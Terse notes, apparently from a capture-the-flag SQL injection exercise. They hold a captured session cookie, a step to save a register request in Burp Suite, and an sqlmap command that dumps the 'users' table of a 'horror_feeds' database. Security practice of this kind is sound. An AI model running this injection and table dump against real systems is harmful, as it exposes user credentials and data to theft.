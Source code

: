 
session: eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdVlTSXNJbVY0Y0NJNk1UWTJOalkwTnpVNU5IMC5HVWluZC1EV3VRMU9HZHc3SDg1OG5CaG55R0NMMVpkTGdhUUZvd3J0eFNRIn0.Y1axyg.TT5lrA_23XGtSwPn0B0FB4Uoftg

save register request vi burpsuite
tmp.txt

sqlmap -r tmp.txt --dbs --dbms=MySQL -v 3 --batch -D horror_feeds -T users --dump
